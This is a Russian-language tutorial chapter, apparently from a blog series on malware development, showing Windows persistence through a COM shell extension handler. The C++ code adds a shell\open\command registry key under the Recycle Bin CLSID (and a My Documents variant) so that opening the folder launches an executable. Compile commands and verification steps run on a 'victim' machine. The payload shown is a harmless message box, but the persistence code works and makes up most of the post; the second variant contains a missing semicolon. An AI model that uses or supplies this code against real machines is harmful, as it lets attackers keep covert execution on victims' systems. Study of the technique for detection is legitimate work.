\newpage
\subsection{87. разработка вредоносного ПО: закрепление (persistence) - часть 21. Корзина, Мои документы – обработчик расширения COM. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через модификацию обработчика расширения COM для Корзины.     

### список CLSID

Некоторые специальные папки в операционной системе идентифицируются уникальными строками:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Мой компьютер     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Мои документы     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Сетевое окружение     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Сетевые компьютеры     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Принтеры и факсы      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Корзина       

Добавление подраздела `open\command` к CLSID и добавление нового действия для ключа `shell` приведет к выполнению значения, хранящегося в `\command`.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт закрепления (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как можно видеть, логика проста.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query \
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" \
/s
```

{width="80%"}    

Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге просто компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Наконец, запускаем этот скрипт закрепления на машине жертвы и снова проверяем реестр:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

{width="80%"}    

Как можно видеть, добавлен подраздел и значение ключа установлено.    

Затем пробуем открыть Корзину:    

{width="80%"}    

{width="80%"}    

Если открыть `ProcessExplorer` и посмотреть свойства `hack.exe`:     

{width="80%"}    

Можно заметить, что родительским процессом является `explorer.exe (1680)`.     

Идеально! =^..^=    

### а что насчет других CLSID из списка?    

Я внес небольшое изменение в скрипт закрепления:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Компилируем и запускаем на машине жертвы:      

```powershell
.\pers.exe
reg query \
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

{width="80%"}    

Но... Не работает у меня в Windows 10, так как используется это дурацкое меню "Пуск", и я не могу найти папку "Мои документы" на рабочем столе.    

Я также попробовал этот трюк с другим CLSID на машине `Windows 7 x86`. Он сработал для папки "Мой компьютер".     

{width="80%"}    

{width="80%"}    

Я не знаю, использует ли этот трюк какая-либо APT-группа или семейство вредоносного ПО.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
